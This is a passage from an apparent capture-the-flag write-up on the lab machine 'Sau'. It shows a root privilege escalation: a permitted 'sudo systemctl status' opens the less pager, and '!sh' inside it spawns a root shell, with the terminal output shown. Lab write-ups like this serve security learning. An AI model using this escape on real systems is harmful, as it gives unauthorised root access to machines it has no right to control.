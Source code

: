 so I can run systemctl with a specific parameter. 
According to GTFOBins, It runs this command in `less` which should let me use `!sh` to run bash. I just need to make the shell interactive. 

Now I just run the `sudo /usr/bin/systemctl status trail.service` and then `!sh` which gives me this:
```
Jul 12 17:46:00 sau sudo[2189]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=root ; COMMAND=/usr/bin/systemctl stat>
Jul 12 17:46:00 sau sudo[2189]: pam_unix(sudo:session): session opened for user root by (uid=0)
lines 1-30/30 (END) ::!!lines 1-30/30 (END)lines 1-30/30 (END)!sshh!sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
go  root.txt
# 
```
Sau is PWNED!!!
